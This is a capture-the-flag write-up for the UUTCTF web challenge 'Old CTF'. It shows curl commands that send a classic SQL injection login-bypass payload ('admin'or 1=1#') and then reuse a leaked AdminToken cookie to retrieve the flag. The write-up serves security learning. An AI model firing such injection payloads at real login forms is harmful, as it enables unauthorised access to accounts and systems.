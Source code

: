 # **Old CTF**

#### tag : web, sqli, csrf, cookie 

-----------------------------------------------

#### Description

>There is an old page of UUTCTF at:
>
>http://188.40.189.2:8004/
>
>Simple, find the flag.

-----------------------------------------------

#### Solution

Problem page is `http://188.40.189.2:8004/`. But this page is just archive page for `ctftime`. There is no valuable things in this page. So I check `robots.txt`. 

~~~
$ curl http://188.40.189.2:8004/robots.txt
User-agent: *
Disallow: 
/css/
/fonts/
/images/
/js/
/vendor/
/login.php
~~~

There is simple login page that received 3 parmeters for login.

~~~
$ curl http://188.40.189.2:8004/login.php
...
					<span class="login100-form-title">
						Member Login
					</span>

										
					<div class="wrap-input100">
						<input class="input100" type="hidden" name="token" value="77b042d904595c105874ae33f499be16">
					</div>
					
					<div class="wrap-input100 p-t-15">
						<input class="input100" type="text" name="username" placeholder="Username">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-envelope" aria-hidden="true"></i>
						</span>
					</div>

					<div class="wrap-input100">
						<input class="input100" type="password" name="password" placeholder="Password">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-lock" aria-hidden="true"></i>
						</span>
					</div>
					
					<div class="container-login100-form-btn">
						<button class="login100-form-btn">
							Login
						</button>
...
~~~

Maybe simple sqli is effective. But there is only string `Sorry, You must be admin to find the flag! Are you tired? Eat some cookies ;)`.

~~~
$ curl -X POST -d "username=admin'or 1=1#&password=password" http://188.40.189.2:8004/login.php
...
					<span class="login100-form-title">
						Member Login
					</span>

					Sorry, You must be admin to find the flag! Are you tired? Eat some cookies ;)					
					<div class="wrap-input100">
						<input class="input100" type="hidden" name="token" value="77b042d904595c105874ae33f499be16">
					</div>
					
					<div class="wrap-input100 p-t-15">
						<input class="input100" type="text" name="username" placeholder="Username">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-envelope" aria-hidden="true"></i>
						</span>
					</div>

					<div class="wrap-input100">
						<input class="input100" type="password" name="password" placeholder="Password">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-lock" aria-hidden="true"></i>
						</span>
					</div>
					
					<div class="container-login100-form-btn">
						<button class="login100-form-btn">
							Login
						</button>
~~~

I can find `AdminToken` is `33e78d60bc1f9dcc7291c891e6f069e4` in cookie. Well, Maybe this value is for `token` paremeter.

~~~
$ curl -X POST -c cookies -d "username=admin'or 1=1#&password=password" http://188.40.189.2:8004/login.php

$ cat cookies 
# Netscape HTTP Cookie File
# http://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

188.40.189.2	FALSE	/	FALSE	1559105464	AdminToken	33e78d60bc1f9dcc7291c891e6f069e4
~~~

Ok. login with token. And I can get flag from server.

~~~
$ curl -X POST -c cookies -d "username=admin'or 1=1#&password=passwordi&token=33e78d60bc1f9dcc7291c891e6f069e4" http://188.40.189.2:8004/login.php
...	
					<span class="login100-form-title">
						Member Login
					</span>

					Congratulations! This is Flag: 1f29322531f03627428a73f70664c8e9									</form>
			</div>
		</div>
	</div>
...
~~~

**UUTCTF{1f29322531f03627428a73f70664c8e9}**
